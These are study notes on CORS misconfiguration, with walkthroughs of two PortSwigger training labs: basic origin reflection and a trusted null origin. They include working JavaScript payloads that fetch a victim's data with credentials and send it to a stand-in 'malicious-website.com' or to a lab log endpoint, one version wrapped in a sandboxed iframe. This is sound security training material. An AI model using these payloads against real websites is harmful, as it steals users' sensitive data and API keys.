 # CORS Notes

[Portswigger](https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing)

## Methodology

Example script to steal info from a user

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

Using that script in an iframe for a whitelisted null in the origin value:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```


## Labs Walkthrough

### CORS Vulnerability with Basic Origin Reflection Attack

- log into application and review the request to /accountDetails
- notice the usage of the `Access-Control-Allow-Origin` header, suggesting the usage of CORS
- ![image](https://github.com/user-attachments/assets/88d4be40-617a-442d-b257-20e37916e5e5)
- - we can validate it reflects the cors by adding an arbitrary Origin header with anything and view the response `Access-Control-Allow-Origin` header having our arbitrary value reflected
- ![image](https://github.com/user-attachments/assets/282744d5-6db9-4474-ad93-66a449f30432)
- create the request by using the /accountDetails as the path for sensitive data and set location to just /log

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0aab0073041f4fa4815f39dc00ce00a4.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```

- after storing and delivering to the victim, go to access log to find the api key to submit

### CORS Vulnerability with trusted null origin

- again login with creds and view the login and notice the `/accountDetails` page
- you can add null in this request to validate that it does accept null and `Access-Control-Allow-Credentials` is set to true
- ![image](https://github.com/user-attachments/assets/8ee159ca-75a2-4259-ab7d-9a4f12440cf1)
- now craft exploit to abuse, using sample from methodology above

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0a74004304f82b2983e2d8ec00d8009c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>"></iframe>
```

- store and view, check your api creds get logged, then deliver to victim to steal theirs









